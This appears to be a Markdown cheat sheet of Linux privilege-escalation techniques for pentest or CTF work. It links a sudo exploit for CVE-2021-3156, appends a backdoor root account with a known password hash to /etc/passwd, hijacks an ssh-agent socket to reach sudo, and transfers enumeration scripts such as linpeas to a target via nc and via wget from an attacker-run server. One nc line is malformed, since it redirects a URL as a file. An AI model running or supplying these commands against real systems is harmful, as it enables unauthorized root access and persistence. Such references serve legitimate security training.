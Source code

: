 # Look for open connections
```bash
# -t	Display TCP sockets
# -u	Display UDP sockets
# -l	Displays only listening sockets
# -p	Shows the process using the socket
# -n	Doesn't resolve service names
ss -tulpn
```

## Expose service through local server (aka port forwarding)
```bash
ssh -L PORT:localhost:PORT <username>@<ip>
```

# Sudo exploit
https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_nss.py

# See how to exploit binaries executed as root
https://gtfobins.github.io/

# List commands where sudo can be used by the user
```bash
sudo -l
```

# Add admin user in /etc/passwd
```bash
# Get hashed password to add in /etc/passwd
openssl passwd -1 -salt SALT PASSWORD
openssl passwd -1 -salt azerty azerty

echo 'USERNAME:PASSWORD_HASH:0:0:root:/root:/bin/bash' >> /etc/passwd
echo 'got_you:$1$azerty$dnHlPdA34NxX1Z8CRVx/r.:0:0:root:/root:/bin/bash' >> /etc/passwd

```

# Existing sudo call in ps aux by current user
## reusing sudo tokens
Check that `/proc/sys/kernel/yama/ptrace_scope == 0`. If so, check hacktricks:
https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens

## PAM
If PAM accepts ssh keys (check `cat /etc/pam.d/sudo`)
Find the ssh agent socket file. Could be in `/tmp/ssh-*`, but importantly, the socket is named `agent.PID`, PID being known from the ongoing ssh connection found in `ps aux`.

```bash
export SSH_AUTH_SOCK=/PATH/TO/agent.PID
ssh-add -l
sudo -l
sudo su -
```

More about this at https://manpages.ubuntu.com/manpages/bionic/man8/pam_ssh_agent_auth.8.html

# Use linpeas (linus priv esc awesome script)
## nc
```bash
# Prepare receiver, expecting a file on port 1234
nc -l -p 1234 > /tmp/linpeas.sh
```
```bash
# Send the file to TARGET
nc -w 3 TARGET 1234 < Scripts/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh
```

## wget
```bash
# Prepare local webserver
sudo python3 -m http.server 4444 --bind 10.11.33.78
```
```bash
# Download from target
wget http://10.11.33.78:4444/linpeas.sh ./linpeas.sh
```

# Use linux smart enumeration
```bash
# Prepare receiver, expecting a file on port 1234
nc -l -p 1234 > /tmp/lse.sh
```
```bash
# Send the file to TARGET
nc -w 3 TARGET 1234 < https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
```

# Find SUID
```bash
find / -perm /4000 2>/dev/null
```
